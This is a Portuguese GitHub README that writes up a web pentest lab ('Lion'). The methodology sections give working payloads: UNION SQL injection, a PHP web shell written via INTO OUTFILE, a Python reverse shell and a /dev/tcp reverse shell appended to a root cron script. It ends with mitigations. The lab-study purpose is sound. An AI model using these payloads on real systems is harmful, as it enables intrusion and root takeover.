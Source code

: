 # Lab Lion - Exploração Avançada de Vulnerabilidades

![Lab Banner](https://img.shields.io/badge/Category-Web%20Pentest-red) 
![Difficulty](https://img.shields.io/badge/Difficulty-Intermediate-orange) 
![Vulnerabilities](https://img.shields.io/badge/Vulnerabilities-3%20Critical-brightgreen)

## 📌 Visão Geral
Exploração completa de um ambiente vulnerável contendo múltiplas falhas críticas que permitiram:
1. **SQL Injection → RCE** (Injeção SQL com Execução Remota de Código)
2. **Upload de Web Shell** (Backdoor PHP)
3. **Escalonamento de Privilégios via Cron Jobs** (Root Access)

> ⚠️ **Nota Ética**: Todas as técnicas foram realizadas em ambiente controlado para fins educacionais.

## 🔍 Sumário Executivo

| Item | Detalhes |
|------|----------|
| **Data** | [Inserir data] |
| **Tempo de Exploração** | 2 horas |
| **Ferramentas** | Nmap, Burp Suite, Netcat, LinPEAS |
| **CVEs Relacionados** | CWE-89 (SQLi), CWE-434 (Upload Arbitrário) |

## 🎯 Metodologia

### 1. Reconhecimento Inicial
```bash
sudo nmap -p- -Pn -min-rate 300 -oG Allports 192.168.1.100
```
**Resultados:**
- Porta 80 (HTTP): Aplicação web vulnerável
- Porta 3306 (MySQL): Banco de dados exposto

### 2. Exploração de SQL Injection
**Payload inicial para detecção:**
```sql
' UNION SELECT 1,2,3,4,5,6,7#
```
**Exploração avançada:**
```sql
' UNION SELECT 1,@@version,3,4,5,6,7#
```
**Resultado:** MariaDB 5.5.68

### 3. Conversão para RCE via OUTFILE
```sql
' UNION SELECT 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7 
INTO OUTFILE "/var/www/html/includes/cmd.php"#
```
**Webshell acessível em:**
```
http://192.168.1.100/includes/cmd.php?cmd=id
```

### 4. Estabelecimento de Reverse Shell
**Payload Python:**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### 5. Escalonamento de Privilégios
**Vulnerabilidade encontrada:**
- Cron job executando como root:
```bash
/opt/lion/lion.backup.sh
```
**Exploração:**
```bash
echo "bash -i >& /dev/tcp/10.0.0.1/1337 0>&1" >> /opt/lion/lion.backup.sh
```

## 🛠️ Fluxo Completo de Ataque

```mermaid
graph TD
    A[Reconhecimento] --> B[SQL Injection]
    B --> C[Database Enumeration]
    C --> D[Webshell Upload]
    D --> E[Reverse Shell]
    E --> F[LinPEAS Scan]
    F --> G[PrivEsc via Cron]
    G --> H[Root Access]
```

## 📸 Evidências

1. **SQL Injection**:
   ![SQLi Proof](screenshots/sqli-proof.png)

2. **Web Shell**:
   ![Webshell](screenshots/webshell.png)

3. **Root Access**:
   ![Root Shell](screenshots/root-shell.png)

## 🛡️ Lições Aprendidas

### Vulnerabilidades Críticas
1. **Input não sanitizado** permitiu SQL Injection
2. **Configuração insegura** do MySQL (`secure_file_priv` desabilitado)
3. **Permissões inadequadas** em scripts agendados

### Mitigações Recomendadas
1. Implementar prepared statements
2. Restringir permissões de escrita no filesystem
3. Revisar todos os cron jobs com privilégios elevados

## 🧠 Habilidades Demonstradas

| Técnica | Nível | Ferramentas |
|---------|-------|------------|
| Enumeração de Rede | ★★★☆☆ | Nmap |
| Exploração SQLi | ★★★★☆ | Burp Suite |
| Pós-Exploração | ★★★★☆ | Netcat, LinPEAS |
| Análise de Vulnerabilidades | ★★★★☆ | Manual |

## 🔗 Recursos Úteis
- [OWASP SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Linux Privilege Escalation Checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)

---

[![LinkedIn](https://img.shields.io/badge/-LinkedIn-0A66C2?style=for-the-badge&logo=linkedin)](https://linkedin.com/in/rafaelribeirong)
